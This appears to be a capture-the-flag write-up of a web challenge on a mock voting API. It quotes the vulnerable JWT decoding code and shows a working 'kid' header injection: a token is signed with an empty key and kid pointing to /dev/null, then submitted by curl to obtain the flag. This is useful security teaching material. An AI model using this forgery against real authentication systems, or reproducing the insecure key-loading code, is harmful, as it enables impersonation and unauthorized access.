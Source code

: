 ```yaml
---
layout: writeups
title: The voting logs ain't making sense
tags: WebX
---
```


## Description

A paranormal event was observed during the voting. Apparently multiple successful vote submissions were starting to be observed in the logs for an individual and votes for citizens that don't exist? Can you find out how an attacker may have done this and submit a vote for the citizen ID CIT1337 who has already voted?

The code for the backend of all week 4 challenges was the same, so we also had that.


## Solution

I ended up solving this challenge in the exact same was as [I can be anyone](./I-can-be-anyone) as such the writeup is practically the same, as it was the same challenge

The challenge was about forging a vote for the system that it accepted. Here is the code for vote submissions.

```python
##### VOTE SUBMISSION
@voting_bp.route("/submit-vote", methods=["POST"])
def submit_vote():
    """
    Citizen submits a vote for their chosen party
    """
    try:
        auth_header = request.headers.get("Authorization")
        if not auth_header:
            return jsonify({"error": "Missing Authorization header"}), 401

        payload = decode_jwt_token(auth_header)
        if not payload:
            return jsonify({"error": "Invalid or expired token"}), 401

        data = request.get_json()
        if not data:
            return jsonify({"error": "No JSON data provided"}), 400

        party = data.get("party")
        if not party:
            return jsonify({"error": "Missing required field: party"}), 400

        citizen_id = payload.get("citizenId")
        name = payload.get("name")
        state = payload.get("state")
        vote_identifier = payload.get("vote_identifier")

        if not all([citizen_id, name, state, vote_identifier]):
            return jsonify({"error": "Invalid token payload"}), 401

        db = Database()
        success = db.submit_vote(citizen_id, party, state, vote_identifier)

        if success:
            response_data = {
                "success": True,
                "message": "Vote submitted successfully",
                "citizen_id": citizen_id,
                "party": party,
                "state": state
            }

            if citizen_id == "CIT100":
                response_data["i_can_be_anyone_flag"] = current_app.config["I_CAN_BE_ANYONE_FLAG"]
            elif citizen_id == "CIT1337":
                response_data["the_voting_logs_aint_making_sense_flag"] = current_app.config["THE_VOTING_LOGS_AINT_MAKING_SENSE_FLAG"]

            return jsonify(response_data)
        else:
            return jsonify({"error": "Vote already submitted or database error"}), 409

    except Exception as e:
        return jsonify({"error": f"Failed to submit vote: {str(e)}"}), 500
```

This shows how in order to submit a vote, you need a valid JWT, and you need a `party` value in your request body. Then if the `citizen_id` of your JWT is `CIT1337` you get the flag.

Lets look at the JWT code to see if we can forge a JWT token.

```python
import jwt

#...

def decode_jwt_token(token):
    try:
        if token.startswith("Bearer "):
            token = token[7:]

        unverified_header = jwt.get_unverified_header(token)
        kid = unverified_header.get("kid")
        alg = unverified_header.get("alg")

        if kid:
            try:
                public_key_path = kid
                with open(public_key_path, "r") as key_file:
                    public_key = key_file.read()
            except FileNotFoundError:
                return None
            except Exception:
                return None
        else:
            public_key_path = current_app.config["JWT_PUBLIC_KEY_PATH"]
            with open(public_key_path, "r") as key_file:
                public_key = key_file.read()

        payload = jwt.decode(
            token,
            public_key,
            algorithms=[alg]
        )

        return payload

    except jwt.ExpiredSignatureError:
        return None
    except jwt.InvalidTokenError:
        return None
    except Exception:
        return None
```



This is a dupliate challenge so I already knew the exploit was `kid` injection. 

Normally in a JWT if it has the `kid` header, and in this case, the `kid` header is used to dictate which key should be used to decrypt the token and thereby authenticate it. Therefore, if you set the `kid` header to point to a value that the user knows the value of, and then sign a JWT token with that key using a symetric algorithm such as `HS256` then you can forge any token you want. Luckily even if we don't know much files on this system, linux has a few preset files that you cant change the values within that we can just use for the symetric key, as we know its value. In this case I am using `/dev/null` this file is completely empty, and anything put in here is removed, so the symettric key in this case would be an empty string.

As such, lets make a JWT token in just the python terminal

```python
>>> import jwt
>>> payload = {"citizenId": "CIT1337", "name": "John Doe", "state": "Izzi", "vote_identifier": "ab23b8"}
>>> headers = {"kid": "/dev/null"}
>>> jwt.encode(payload, "", algorithm="HS256", headers=headers)
'eyJhbGciOiJIUzI1NiIsImtpZCI6Ii9kZXYvbnVsbCIsInR5cCI6IkpXVCJ9.eyJjaXRpemVuSWQiOiJDSVQxMzM3IiwibmFtZSI6IkpvaG4gRG9lIiwic3RhdGUiOiJJenppIiwidm90ZV9pZGVudGlmaWVyIjoiYWIyM2I4In0.zUOmbT9syBX09fuzdRFb8T4b-YZwOWmGgGo5KqvOdH0'
```

There is our token, time to submit our vote:

```bash
$ curl "http://mobile-app.commission.freedonia.vote/api/voting/submit-vote" -X POST -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsImtpZCI6Ii9kZXYvbnVsbCIsInR5cCI6IkpXVCJ9.eyJjaXRpemVuSWQiOiJDSVQxMzM3IiwibmFtZSI6IkpvaG4gRG9lIiwic3RhdGUiOiJJenppIiwidm90ZV9pZGVudGlmaWVyIjoiYWIyM2I4In0.zUOmbT9syBX09fuzdRFb8T4b-YZwOWmGgGo5KqvOdH0" -H "Content-Type: application/json" -d '{"party":1}'
{"citizen_id":"CIT1337","message":"Vote submitted successfully","party":1,"state":"Izzi","success":true,"the_voting_logs_aint_making_sense_flag":"cysea{you_got_to_be_KIDding_me_b60c85395d}"}
```

And look at that, we get the flag as the reply `cysea{you_got_to_be_KIDding_me_b60c85395d}`
